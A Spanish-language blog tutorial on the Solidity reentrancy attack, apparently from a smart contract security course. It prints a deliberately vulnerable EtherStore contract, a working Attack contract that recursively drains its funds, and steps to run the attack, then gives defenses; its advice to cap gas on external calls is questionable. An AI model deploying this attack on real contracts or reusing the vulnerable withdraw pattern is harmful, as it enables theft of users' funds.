 ```yaml
---
title: 'Solidity: Ataque Reentrancy'
description: 'Uno de los problemas de seguridad más comunes es el denominado Reetrancy que provoca llamadas recursivas a una misma función de un contrato hasta vaciar los fondos del mismo.'
image: '/tech/7-blockchain/solidity.png'
pubDate: '06/01/2023'
englishMetadata: {
  title: 'Solidity: Reetrancy Attack',
  description: 'One of the most common security problems is called Reetrancy, which causes recursive calls to the same function of a contract until the funds are emptied.'
}
prev: 'dos-gas'
next: 'cross-reentrancy-attack'
---
```


# Solidity: Ataque Reentrancy

**El depósito y retiro de ETH en un contrato** por parte de un usuario **puede exponer vulnerabilidades** si los mismos no se realizan de la forma correcta.

## Reentrada de transacciones

Uno de los problemas de seguridad más comunes es el denominado **Reetrancy** que provoca llamadas recursivas a una misma función de un contrato hasta vaciar los fondos del mismo.

Veamos de qué se trata esta vulnerabilidad y cómo prevenirla a través de un simple ejemplo:

### Explicación del contrato vulnerado

Utilizaremos de ejemplo un contrato inteligente que permite depositar y retirar ETH. Cada dirección solo puede retirar sus propios fondos, pero la vulnerabilidad permitirá que un atacante se quede con todos los fondos.

> **NOTA:** El ejemplo de esta vulnerabilidad fue tomado y adaptado originalmente de [Solidity by examples](https://solidity-by-example.org/hacks/re-entrancy/ "Solidity by examples").

### Contratos involucrados

Comencemos con el contrato principal que contiene la lógica de negocios para el depósito y retiro de Ether.

```js
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.13;

contract EtherStore {
  mapping(address => uint) public balances;

  // Deposito de ETH
  function deposit() public payable {
    balances[msg.sender] += msg.value;
  }

  // Retiro de ETH
  function withdraw() public {
    uint monto = balances[msg.sender];
    require(monto > 0);

    (bool sent, ) = msg.sender.call{value: monto}("");
    require(sent, "El envio de ETH ha fallado.");
    balances[msg.sender] = 0;
  }

  // Funciona auxiliar para visualizar el balance total del contrato
  function getBalance() public view returns (uint) {
    return address(this).balance;
  }
}
```

Por otro lado, el contrato atacante. Presta atención a la función `receive()` que es la vía por la cual se genera la recursividad y permite el robo de todos los fondos.

```js
contract Attack {
  EtherStore public etherStore;

  constructor(address _etherStoreAddress) {
    // Creamos la instancia de EtherStore.
    etherStore = EtherStore(_etherStoreAddress);
  }

  // Función receive() es llamada cuando EtherStore envia ETH a este contrato.
  receive() external payable {
    // Al retirar el primer ETH, EtherStore lo enviará a este hook que vuelve a llamar a withdraw de forma recursiva
    if (address(etherStore).balance >= 1 ether) {
      etherStore.withdraw();
    }
  }

  // El ataque consiste en depositar 1 ETH e inmediatamente retirarlo
  function attack() external payable {
    require(msg.value >= 1 ether);
    etherStore.deposit{value: 1 ether}();
    etherStore.withdraw();
  }

  // Funciona auxiliar para visualizar el balance total del contrato.
  function getBalance() public view returns (uint) {
    return address(this).balance;
  }
}
```

### Procedimiento para vulnerar el contrato

1. Desplegar el contrato `EtherStore`.
2. Depositar 1 ETH con dos cuentas. Hasta este punto, el contrato tendría 2 ETH.
3. Desplegar contrato `Attack` que recibe en el constructor la dirección de `EtherStore`.
4. Hacer el llamado a `Attack.attack` enviando 1 ETH con una tercera cuenta para tener acceso a realizar una extracción. El contrato atacante recibirá los 3 ETH.

### ¿Qué sucedió aquí?

`Attack` llamó a `EtherStore.withdraw` múltiples veces antes de que `EtherStore.withdraw` finalice su ejecución.

**Así es el orden de llamados de las funciones:**
- `Attack.attack`
- `EtherStore.deposit`
- `EtherStore.withdraw`
- `Attack.receive()` (recibes 1 ETH)
- `EtherStore.withdraw`
- `Attack.receive()` (recibes 1 ETH)
- `EtherStore.withdraw`
- `Attack.receive()` (recibes 1 ETH)

### ¿Por qué sucedió?

Al realizarse las llamadas de forma recursiva, **el balance de la cuenta del atacante nunca llega a 0** y, por lo tanto, permite seguir haciendo retiros. Observa que el balance de la cuenta del contrato atacante se setea a 0 recién en la última línea de código de la función `withdraw()`.

```js
function withdraw() public {
    uint monto = balances[msg.sender];
    require(monto > 0);
    (bool sent, ) = msg.sender.call{value: monto}("");
    require(sent, "El envio de ETH ha fallado.");
    balances[msg.sender] = 0;
}
```

### ¿Cómo se puede evitar?

Hay al menos tres medidas que puedes tomar para evitar este enorme problema de seguridad.

1. El primero es **mover el seteo del balance a 0 antes del llamado a la función externa**.

```js
function withdraw() public {
  uint monto = balances[msg.sender];
  require(monto > 0);

  balances[msg.sender] = 0;   // Seteo del balance antes del 'msg.sender.call'

  (bool sent, ) = msg.sender.call{value: monto}("");
  require(sent, "El envio de ETH ha fallado.");
}
```
Corresponde setear a 0 el balance de la cuenta que retira sus fondos antes de realizar el llamado externo. En el caso de que el llamado falle por otro motivo, no te preocupes, ya que el `require()` hará un `revert()` y los balances volverán a como estaban antes del fallo.

2. También puedes **setear el uso del gas en la llamada externa**.

```js
(bool sent, ) = msg.sender.call{value: monto, gas: 10000}("");
```
Siempre es aconsejable configurar el gas disponible para un llamado externo

3. Otra forma de solucionar esta vulnerabilidad es con **un modificador que valide que la función no se esté llamando de forma recursiva**. Afortunadamente, [OpenZeppelin ya tiene un contrato auditado y seguro](https://github.com/OpenZeppelin/openzeppelin-contracts/blob/master/contracts/security/ReentrancyGuard.sol "OpenZeppelin ya tiene un contrato auditado y seguro") para solventar este problema.

```js
import "@openzeppelin/contracts/security/ReentrancyGuard.sol";

contract EtherStore is ReentrancyGuard {
  // ...

  function withdraw() public nonReentrant {
    // ...
  }
}
```

## Conclusión

Has visto hasta aquí la exigencia de desarrollar un contrato inteligente que administre correctamente fondos. Un simple cambio de orden en la lógica de un contrato puede causar perdidas millonarias. Claro que ya las ha causado y, por este motivo, **Reentrancy** es una vulnerabilidad bien conocida que debes prevenir estudiando su funcionamiento y escribiendo código de forma segura.

---
Post creado en colaboración con el [Curso de Seguridad de Smart Contracts](https://platzi.com/cursos/seguridad-smart-contracts/ "Curso de Seguridad de Smart Contracts") de **Platzi**.
